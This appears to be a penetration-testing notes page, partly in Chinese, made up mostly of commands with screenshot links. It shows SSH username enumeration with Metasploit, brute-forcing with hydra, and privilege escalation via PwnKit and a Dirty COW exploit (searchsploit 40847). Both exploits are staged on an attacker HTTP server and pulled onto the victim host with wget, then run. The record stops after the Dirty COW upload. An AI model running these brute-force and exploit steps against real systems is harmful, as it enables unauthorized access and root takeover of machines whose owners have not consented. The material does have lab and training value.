 SSH
---
    msfconsole -q
    search ssh_enum
    use 1
<img width="507" alt="image" src="https://github.com/user-attachments/assets/a8212496-ec9d-49d2-b980-7c914dad5202">

    set rhost 192.168.0.70
    set user_file Wordlist/Username.txt
    set check_false true
    run
<img alt="image" src="https://github.com/user-attachments/assets/38fe0043-1516-4839-9ac1-beb849d7eb02">

    利用找到的帳號進行hydra暴力破解
    hydra –t 4 –l <username> –P <passwords.txt> ssh://<ssh_IP>
    hydra –t 4 –L <users.txt> –P <passwords.txt> ssh://<ssh_IP>
<img  alt="image" src="https://github.com/user-attachments/assets/68084110-d289-425f-8b37-7c078aece794">

Privilege Escalation
---
    PwnKit   
    https://github.com/ly4k/PwnKit
    wget https://github.com/ly4k/PwnKit/raw/main/PwnKit
    wget https://github.com/ly4k/PwnKit/raw/main/PwnKit32
<img  alt="image" src="https://github.com/user-attachments/assets/e6613472-d269-4d99-8a52-06cb8a0438db">

    上傳PwnKit到受害端並執行，本機架設httpserver
    sudo python3 -m http.server 80
<img  alt="image" src="https://github.com/user-attachments/assets/770f3a07-48ef-4f0a-81ba-287f74a87189">

    受害端主機wget 192.168.0.18/PwnKit
<img  alt="image" src="https://github.com/user-attachments/assets/dd0f93d0-2220-4de2-a574-2d31e215d86a">
<img  alt="image" src="https://github.com/user-attachments/assets/cdfe2aa2-c495-4b2a-9cea-3503c4ae694b">

    變更檔案的執行權限並執行
    chmod +x PwnKit
    ./PwnKit
<img  alt="image" src="https://github.com/user-attachments/assets/59f26233-3db6-40c3-bad7-3b7751b2592e">

Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (/etc/passwd Method)
---
   
    檢查kernal版本是否在漏洞版本區間
![image](https://github.com/user-attachments/assets/76baa4a9-0e20-4038-b40f-b420672eb7a9)

    下載40847漏洞的檔案並上傳到受害端電腦
    searchsploit -m 40847
    sudo python3 -m http.server 80
    wget 192.168.0.18/40847.cpp
![image](https://github.com/user-attachments/assets/ffdf1d60-fe71-456e-a774-291b3544f2fc)
